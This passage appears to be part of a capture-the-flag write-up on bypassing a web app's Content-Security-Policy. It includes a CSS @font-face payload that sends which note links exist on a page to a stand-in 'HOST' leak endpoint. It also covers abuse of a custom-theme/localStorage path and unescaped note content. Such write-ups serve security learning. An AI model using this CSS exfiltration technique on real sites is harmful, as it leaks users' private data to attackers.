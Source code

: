 ```py
       f"default-src 'self'; "
       f"script-src 'self' 'nonce-{nonce}'; "
       f"style-src 'self' 'nonce-{nonce}'; "
       f"img-src *; "
       f"font-src 'self'; "
       f"connect-src 'self'; "
   )
```

Final
```py
   response.headers['Content-Security-Policy'] = (
       f"script-src 'nonce-{nonce}'; "
       f"style-src 'self' 'nonce-{nonce}'; "
       f"img-src 'self'; "
       f"object-src 'none'; "
       f"base-uri 'none';"
   )
```
With current CSP since the img-src is self, we can’t connect to our host with img src, so for the bypass we still able connect to our host using font-src

```css
@font-face {
 font-family: "LeakFont_/notes/view/ff";
 src: url("http://HOST/leak?id=/notes/view/ff") format("woff2");
}
a[href^="/notes/view/ff"] { font-family: "LeakFont_/notes/view/ff" !important; }
```

### OPTIONS
```js
const options = {
   "custom_theme": false,
}
```
If `custom_theme` was disabled how we can trigger 
```js
if (options.custom_theme) {
       const style = document.createElement('style');
       style.textContent = document.getElementById('custom-theme-styles').textContent;
       style.nonce = '{{ nonce }}';
       document.head.appendChild(style);
       localStorage.setItem('custom_theme', style.textContent);
   }
```
On `base.html` there no checker on the options, somehow if we able to inject our css into localstorage the css still injected into the header section

Let’s take a look into `view.html`

```html
   <div class="note-content" id="note-content">
       <p>{{ note.content|safe }}</p>
   </div>
</div>
<script src="{{ url_for('static', filename='js/options.js') }}" nonce="{{ nonce }}"></script>
<script nonce="{{ nonce }}">
   if (options.custom_theme) {
       const style = document.createElement('style');
       style.textContent = document.getElementById('custom-theme-styles').textContent;
       style.nonce = '{{ nonce }}';
       document.head.appendChild(style);
       localStorage.setItem('custom_theme', style.textContent);
   }
</script>
```
